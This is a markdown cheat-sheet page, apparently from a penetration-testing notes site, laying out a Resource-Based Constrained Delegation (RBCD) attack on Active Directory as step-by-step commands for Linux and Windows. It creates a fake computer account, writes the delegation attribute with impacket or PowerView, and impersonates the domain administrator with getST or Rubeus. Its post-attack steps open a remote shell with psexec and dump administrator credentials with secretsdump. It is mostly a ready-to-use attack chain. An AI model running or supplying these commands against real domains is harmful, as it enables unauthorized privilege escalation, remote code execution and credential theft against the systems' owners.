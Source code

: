 ```yaml
---
title: "RBCD Attack"
date: 2024-7-30
tags: ["Pass-The-Ticket", "Pass-The-Hash", "Silver Ticket", "Ticket Granting Ticket", "Active Directory", "Windows", "RBCD", "Resource-Based Constrained Delegation", "S4U", "Impersonate", "Credential Dumping"]
---
```


### RBCD Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Check machine account quota

```console
nxc ldap <TARGET> -u <USER> -p '<PASSWORD>' -M MAQ
```

#### 1. Add a fake computer

```console
impacket-addcomputer -computer-name 'EvilComputer' -computer-pass '<COMPUTER_PASSWORD>' -dc-ip <TARGET> '<DOMAIN>/<USER>:<PASSWORD>'
```

#### 2. Rbcd attack

```console
impacket-rbcd -delegate-to '<TARGET_COMPUTER>$' -delegate-from 'EvilComputer$' -dc-ip <DC> -action 'write' '<DOMAIN>/<USER>:<PASSWORD>'
```

#### 3. Impersonate

```console
sudo ntpdate -s <DC> && impacket-getST -spn cifs/<TARGET_DOMAIN> -impersonate administrator -dc-ip <DC> '<DOMAIN>/EvilComputer:<COMPUTER_PASSWORD>'
```

#### 4. Import ticket

```console
export KRB5CCNAME=administrator@cifs_<TARGET_DOMAIN>@<DOMAIN>.ccache
```

#### 5. Post-Attack

```console
# Remote
sudo ntpdate -s <DC> && impacket-psexec <DOMAIN>/administrator@<TARGET_DOMAIN> -k -no-pass
```

```console
# Or secretsdump
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass -just-dc-user Administrator
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import Modules

```console
. .\PowerView.ps1
```

```console
. .\Powermad.ps1
```

#### 2. Check machine account quota

```console
Get-DomainObject -Identity 'DC=<EXAMPLE>,DC=<COM>' | select ms-ds-machineaccountquota
```

#### 3. Create new computer account

```console
New-MachineAccount -MachineAccount EvilComputer -Password $(ConvertTo-SecureString '<COMPUTER_PASSWORD>' -AsPlainText -Force)
```

<small>*Ref: [Powermad.ps1](https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1)*</small>

#### 4. RBCD Attack

```console
$fakesid = Get-DomainComputer EvilComputer | select -expand objectsid
```

```console
$fakesid
```

```console
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
```

```console
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```

```console
$SD.GetBinaryForm($SDBytes, 0)
```

```console
Get-DomainComputer TARGET_COMPUTER$ | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

#### 5. Check if SecurityIdentifier is now fakesid 

```console
$RawBytes = Get-DomainComputer TARGET_COMPUTER -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
```

```console
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
```

```console
$Descriptor.DiscretionaryAcl
```

#### 6. Impersonate

```console
.\rubeus.exe hash /password:'<COMPUTER_PASSWORD>' /user:EvilComputer /domain:<DOMAIN>
```

```console
.\rubeus.exe s4u /user:'EvilComputer$' /rc4:<HASH> /impersonateuser:administrator /msdsspn:cifs/<TARGET_DOMAIN> /ptt /nowrap
```

#### 7. Convert to ccache format

```console
python3 rubeustoccache.py <BASE64_TICKET> secrets.kirbi secrets.ccache
```

```console
export KRB5CCNAME=secrets.ccache
```

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

#### 8. Post-Attack

```console
# Remote
sudo ntpdate -s <DC> && impacket-psexec <DOMAIN>/administrator@<TARGET_DOMAIN> -k -no-pass
```

```console
# Or secretsdump
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass -just-dc-user Administrator
```

{{< /tabcontent >}}
